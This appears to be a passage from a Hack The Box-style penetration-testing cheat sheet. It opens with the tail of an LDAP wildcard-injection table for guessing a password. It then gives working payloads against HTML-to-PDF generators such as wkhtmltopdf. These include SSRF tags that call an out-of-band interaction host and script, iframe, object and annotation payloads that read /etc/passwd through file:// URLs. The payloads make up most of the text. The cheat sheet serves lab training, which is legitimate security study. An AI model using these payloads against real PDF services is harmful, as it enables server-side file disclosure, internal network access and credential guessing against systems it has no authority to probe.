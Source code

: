 |`htb-stdnt`|`p@ssw0r*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0r*))`|
|`htb-stdnt`|`p@ssw0rd*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))`|
|`htb-stdnt`|`p@ssw0rd`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd))`|


## PDF Generation Vulnerabilities

#### Determining the PDF Generation Library

```bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

#### Server-Side Request Forgery (SSRF) Payloads 

```html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

#### Local File Inclusion (LFI) Payloads 

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```
